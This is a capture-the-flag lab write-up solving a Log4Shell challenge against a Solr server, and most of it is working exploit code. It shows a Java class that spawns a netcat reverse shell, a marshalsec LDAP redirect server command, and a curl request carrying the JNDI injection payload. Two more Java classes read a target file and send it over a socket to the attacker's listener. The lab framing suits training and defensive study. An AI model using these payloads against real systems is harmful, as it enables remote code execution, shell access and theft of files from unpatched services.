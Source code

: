 # Bonus Red Log4Jack
**Location: North Pole**  
**Troll: Icky McGoop**

This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.
Multiple terminal session are created automatically, one running a web server serving from `/home/troll/web` on port 8080, another one running a netcat listener on port 4444.

The objective is to retrieve the file `/home/solr/kringle.txt` from a web service running solr on http://solrpower.kringlecastle.com:8983/.

The attack approach is taken from the provided [bonus help](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4).  
First a Java class `Joergen` creating a reverse shell is created:
```java
public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.
This is placed in the web tree, so that the web server is able to hand out this class.
Next the [marshalsec](https://github.com/mbechler/marshalsec) installation residing in `/home/troll/marshalsec`  is started:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
```
*WEBSERVERIP* has to be replaced with the terminal's IP address.
This application acts as an LDAP server and uses the Java class on the web server as remote code base.

Finally the Log4J vulnerability is triggered:
```bash
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
```
*MARSHALSECIP* has to be replaced with the terminal's IP address.

This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file `kringle.txt` to be retrieved.
```bash
cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
```
So **patching** is the solution.

### Alternative 1: just reading the targeted file
```java
import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

### Alternative 2: pure Java solution, hence platform independant
```java
import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

**Achievement: Log4J Red Bonus**
